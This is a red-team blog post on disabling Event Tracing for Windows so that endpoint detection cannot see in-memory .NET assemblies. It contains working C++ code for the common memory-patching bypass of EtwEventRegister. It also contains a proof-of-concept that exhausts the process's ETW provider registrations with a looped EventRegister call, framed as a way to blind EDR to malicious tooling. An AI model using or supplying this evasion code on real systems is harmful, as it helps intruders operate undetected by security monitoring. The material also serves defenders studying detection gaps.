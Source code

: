 ```yaml
---
layout: post
title: A Novel Method for Bypassing ETW
date: '2023-03-15 00:00:00'
img_path: /assets/img/2023-03-15/
categories: ['Red Team', 'Windows']
tags: []
---
```

I wanted to bypass Event Tracing for Windows (ETW) without any memory patching or hardware breakpoints.  The purpose of breaking ETW is almost always to prevent EDR from gaining telemetry on the execution of C# assemblies. An example of some of the telemetry is shown below with the execution of Seatbelt in-memory inside the NanoBeacon process:

![ProcessHacker shows loaded .Net assemblies](/assets/img/2023-03-15/bad.png)

The current public methods of breaking ETW all patch functions in memory. They do something like this:
```c++
BOOL patchETW(BOOL revertETW) {
#ifdef _M_AMD64
    const SIZE_T patchSize = 1;
    unsigned char etwPatch[] = { 0xc3 }; // ret
    unsigned char etwrevert[] = { 0x40 };
#elif defined(_M_IX86)
    const SIZE_T patchSize = 3;
    unsigned char etwPatch[] = { 0xc2, 0x14, 0x00 };
    unsigned char etwrevert[] = { 0x8b, 0xff, 0x55 };
#endif

    //Get pointer to EtwEventWrite 
    void* pAddress = (PVOID)GetProcAddress(GetModuleHandleA("ntdll.dll"), "EtwEventRegister");
    PVOID lpBaseAddress = pAddress;
    ULONG OldProtection, NewProtection;
    ULONG uSize = patchSize;
    //Change memory protection via NTProtectVirtualMemory
    NTSTATUS status = NtProtectVirtualMemory(NtCurrentProcess(), lpBaseAddress, &uSize, PAGE_READWRITE, &OldProtection);
    //Patch EtwEventRegister via NTWriteVirtualMemory
    status = NtWriteVirtualMemory(NtCurrentProcess(), pAddress, (PVOID)(revertETW ? etwrevert : etwPatch), patchSize, NULL);
    //Revert back memory protection via NTProtectVirtualMemory
    status = NtProtectVirtualMemory(NtCurrentProcess(), lpBaseAddress, &uSize, OldProtection, &NewProtection);
    return 1;
}
```

These could be detected by EDR that have the `NtProtectVirtualMemory` and `NtWriteVirtualMemory` functions hooked. 

There are approaches that take advantage of hardware breakpoints to redirect execution flow without any memory patching. However this method have many downsides like the risk of the hardware breakpoint being detected, and the implementation being very difficult. There are also as far as I know no public tools that demo this for bypassing ETW and that’s because, the .Net Common Language Runtime (CLR) when loaded, starts it own threads, which you’d need to somehow hijack to setup the hardware breakpoint, which then _often_ leads to  patching memory, so it’s just the above method with extra steps.

There is a solution, that’s easy to implement and very effective at the time of writing. The [EventRegister](https://learn.microsoft.com/en-us/windows/win32/api/evntprov/nf-evntprov-eventregister) function:
> Registers an ETW event provider, creating a handle that can be used to write ETW events.

This is the function used by software to create an ETW provider which can then be used to send ETW events. The CLR (which is clr.dll at its core) calls the `EventRegister()` when being loaded to be able to provide the telemetry to EDRs or consumers like ProcessHacker.

An important note on `EventRegister` is that programs should ignore the return value, and just continue working: 
> Most production code should continue to run even if an ETW provider failed to register, so release builds should usually ignore the error code returned by `EventRegister`.

So, my question is, how many ETW event providers can the system/process have? Well, it turns out that a process can have at most [2048](https://www.geoffchappell.com/studies/windows/win32/ntdll/api/etw/evntsup/reghandle.htm). So, if a malicious program calls `EventRegister` 2048 times, or better yet, until an error occures, before loading the CLR, there cannot be any further event providers in the process.

My proof-of-concept code is below which demonstrates spamming the `EventRegister` function to fill the kernel mode red-black tree thus preventing further ETW providers for registering.
```c++
void breakETW_Forever() {
    DWORD status = ERROR_SUCCESS;
    REGHANDLE RegistrationHandle = NULL;
    const GUID ProviderGuid = { 0x230d3ce1, 0xbccc, 0x124e, {0x93, 0x1b, 0xd9, 0xcc, 0x2e, 0xee, 0x27, 0xe4} }; //.NET Common Language Runtime
    int count = 0;
    while (status = EventRegister(&ProviderGuid, NULL, NULL, &RegistrationHandle) == ERROR_SUCCESS) {
        count++;
    }
    //printf("%d\n", count);
}
```

And this is how ProcessHacker .Net assemblies tab looks running Seatbelt in-memory after executing the PoC:
![ProcessHacker shows nothing](/assets/img/2023-03-15/good.png)

There is no ETW telemetry so anyone consuming ETW events (_cough_ EDR _cough_) would be blind to the execution. 
